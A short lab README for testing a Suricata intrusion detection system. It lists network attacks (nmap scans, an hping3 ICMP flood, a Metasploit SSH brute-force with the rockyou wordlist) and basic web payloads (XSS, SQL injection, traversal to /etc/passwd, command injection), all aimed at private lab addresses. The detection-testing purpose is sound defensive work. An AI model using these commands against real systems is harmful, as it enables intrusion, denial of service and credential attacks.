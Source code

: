 # Lab Suricata - Tests IDS
## 1. Network-Based Attacks

### NMAP TCP SYN Scan :
```bash
nmap -sS 192.168.100.10
```

### NMAP UDP Scan :
```bash
nmap -sU 192.168.100.10
```

### ICMP Flood :
```bash
sudo hping3 -1 --flood 192.168.100.10
```

### Tunnel ICMP :
```bash
ping -s 2000 192.168.100.10   
```

### SSH bruteforce :
```bash
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.100.12
set USERNAME root
set PASSWORD /usr/share/wordlists/rockyou.txt
run
```

## Web-based



### XSS (Cross-Site Scripting)
```bash
<script>alert("test")</script>

```

### SQL Injection
```bash
http://192.168.100.10/vulnerabilities/sqli/?id=1' OR 1=1#&Submit=Submit

```

### Directory Traversal
```bash
http://192.168.100.10/vulnerabilities/fi/?page=../../../../etc/passwd

```

### File Inclusion
```bash
http://192.168.100.10/vulnerabilities/fi/?page=../../../../etc/passwd

```

### Command Injection
```bash
; ls
```
